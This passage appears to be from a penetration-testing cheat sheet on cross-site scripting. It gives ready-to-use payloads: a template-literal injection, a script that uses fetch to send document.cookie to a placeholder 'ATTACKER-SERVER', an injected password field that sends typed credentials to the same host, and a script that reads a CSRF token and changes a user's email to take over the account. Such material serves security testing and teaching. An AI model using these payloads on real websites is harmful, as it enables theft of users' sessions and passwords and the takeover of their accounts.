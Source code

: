 * When the injected input is being reflected inside of backticks ` (template literals), we can execute expressions using the ${*data*} format. 

    * Example:  \<script\> var message=\`*user-input*\` \</script\>

```html
${alert(1)}
```

<br>

## XSS to Exploit Users

### Use XSS to steal user's cookies

* Inject the following payload in the vulnerable target application to steal a user's session cookie.  Here the "attacker server" could be burp collaborator for example.

```html
<script>
fetch('https://ATTACKER-SERVER', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

<br>

### Use XSS to capture passwords

* Inject the following payload in the vulnerable target application to steal a user's credentials.  Here the "attacker server" could be burp collaborator for example.


```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ATTACKER-SERVER',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

<br>

### Use XSS to perform CSRF

* Inject the following payload in the vulnerable target application to force a user into changing their email address to test@test.com.  This can be combined with a "Forgot Password" function to take over a user's account.


```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
